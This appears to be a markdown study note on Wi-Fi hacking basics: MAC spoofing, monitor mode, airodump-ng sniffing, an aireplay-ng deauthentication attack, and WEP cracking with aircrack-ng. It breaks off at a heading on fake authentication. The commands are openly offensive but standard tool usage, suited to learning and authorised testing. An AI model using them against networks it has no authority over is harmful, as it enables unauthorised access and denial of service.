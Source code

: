 ### Networking Fundamentals

#### Checking Network Configuration

Commands to use in terminal to check network state:

- `ifconfig` for all connection states
- `iwconfig` for all **wireless** connection states

The MAC address (specified by manufacturer) will be listed in `ifconfig` under `ether`. You can alter the MAC address in memory directly by:

1. Disabling that adapter `ifconfig eth0 down`
2. Reassign a new MAC address `ifconfig eth0 hw ether 00:11:22:33:44:55`

> The MAC address will be reset upon restarting or reconnecting the device.

#### Checking Wireless Networks

We can seek out wireless networks using `airodump-ng`. Ensure that your wireless access point (typically USB device) is in monitor mode with `iwconfig wlan0 mode monitor`. Now we can listen to available networks with `airodump-ng mon0` (where `mon0` is the access point in monitor mode). To listen on a variety of bands (eg, 2.4GHz and 5GHz), use the command `airodump-ng --band abg mon0`.

#### Sniffing Data from Specific Device

To sniff data to a file, the command `airodump-ng --bssid [MAC] --channel [network_channel] --write [file_name] [wireless card]`. This will sniff the data being transmitted by this device, and write it to a series of files. This data can later be analysed by programs like WireShark (because the data captured is potentially encrypted).

#### DeAuthentication Attack

This is a denial of service attack, but specifically for use in a Wi-Fi context. Ensuring to run `airodump-ng` at the same time during this attack. This is achieved with `aireplay-ng` and all that is required is to know the target MAC address (which is available in generic network sniffing (see above)).

`aireplay-ng -D --deauth [#deauthPackets] -a [NetworkMAC] -c [TargetMAC] [wifi card]`

### Gaining Access

#### Cracking WEP

1. Capture a large amount of packets `airodump-ng --bssid [MAC] --channel [network_channel] --write [file_name] [wireless card]`
2. run `aircrack-ng [filename.cap]` (leave step 1 running in the background)
    - To connect with ascii found, copy paste and connect!
    - TO CONNECT WITH KEY FOUND!, copy the key after the text provided in the square brackets, remove the colons [:], and copy paste that number when the Wi-Fi asks for a password.
    - If the network is not busy and not enough packets are being sent force the network to make packets (see step 3 in [Fake Authentication Attack](#fake-authentication-attack))

#### Fake Authentication Attack
